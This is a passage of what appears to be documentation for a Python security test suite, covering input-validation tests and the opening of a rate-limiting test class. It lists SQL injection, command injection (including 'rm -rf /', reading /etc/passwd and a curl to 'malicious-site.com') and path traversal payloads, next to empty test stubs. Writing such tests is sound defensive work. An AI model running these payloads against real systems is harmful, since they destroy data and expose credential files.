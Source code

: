 ```python
        "'; INSERT INTO framework_clients (name) VALUES ('hacked'); --",
        "1; UPDATE framework_clients SET name='hacked' WHERE id=1; --"
    ]
    
    COMMAND_INJECTION_PAYLOADS = [
        "; rm -rf /",
        "| cat /etc/passwd",
        "&& curl malicious-site.com",
        "`id`"
    ]
    
    PATH_TRAVERSAL_PAYLOADS = [
        "../../../etc/passwd",
        "..\\..\\..\\windows\\system32\\config\\sam",
        "....//....//....//etc/passwd"
    ]
    
    def test_sql_injection_prevention(self):
        """Test SQL injection prevention in all inputs."""
        
    def test_command_injection_prevention(self):
        """Test command injection prevention."""
        
    def test_path_traversal_prevention(self):
        """Test path traversal prevention."""
        
    def test_size_limit_enforcement(self):
        """Test input size limit enforcement."""
        
    def test_format_validation(self):
        """Test input format validation."""
        
    def test_email_validation(self):
        """Test email format validation."""
        
    def test_numeric_validation(self):
        """Test numeric input validation."""
```

### 5. Rate Limiting Tests (`tests/security/test_rate_limiting.py`)

```python
"""
🚦 Rate Limiting Security Test Suite

Rate limiting and DoS protection testing:
- Request rate limiting
- IP-based blocking
- Gradual backoff
- Rate limit bypass attempts
"""

class TestRateLimiting:
    """Test rate limiting mechanisms."""
    
    def test_api_rate_limiting(self):
        """Test API request rate limiting."""
        
    def test_form_submission_rate_limiting(self):
        """Test form submission rate limiting."""
        
    def test_search_rate_limiting(self):
```